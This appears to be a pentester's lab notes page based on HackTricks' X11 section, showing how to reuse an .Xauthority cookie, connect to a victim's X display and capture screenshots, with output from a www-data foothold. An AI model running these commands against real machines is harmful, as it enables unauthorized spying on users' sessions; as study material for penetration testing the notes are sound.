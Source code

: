 <div>
	<img src="./assets/logo_hacktricks.png" alt="HackTricks Logo" width="16" height="auto">
	<span style="color: red; font-size: 110%;"><strong>HackTricks</strong></span>
</div>

[6000 - Pentesting X11](https://book.hacktricks.xyz/network-services-pentesting/6000-pentesting-x11)

In order to **use the cookie** you should set the env var: `**export XAUTHORITY=/path/to/.Xauthority**`

[**#Verfy Connection**]
```
xdpyinfo -display <ip>:<display>
xwininfo -root -tree -display <IP>:<display> #Ex: xwininfo -root -tree -display 10.5.5.12:0
```

[**#Screenshots capturing**]
```
xwd -root -screen -silent -display <TargetIP:0> > screenshot.xwd
convert screenshot.xwd screenshot.png
```

![Victim: www-data](https://img.shields.io/badge/Victim-www%2D-data-64b5f6?logo=linux&logoColor=white)

`w`:
```
 17:19:51 up  5:54,  1 user,  load average: 0.01, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
vanity   tty7     :0               11:25    5:54m  0.00s  0.09s /usr/bin/lxsession -s LXDE -e LXDE ←
```

`export XAUTHORITY=/tmp/.Xauthority`

`xdpyinfo -display :0`:
```        
[...]

  visual:
    visual id:    0x53c
    class:    TrueColor
    depth:    32 planes
    available colormap entries:    256 per subfield
    red, green, blue masks:    0xff0000, 0xff00, 0xff
    significant bits in color specification:    8 bits
```
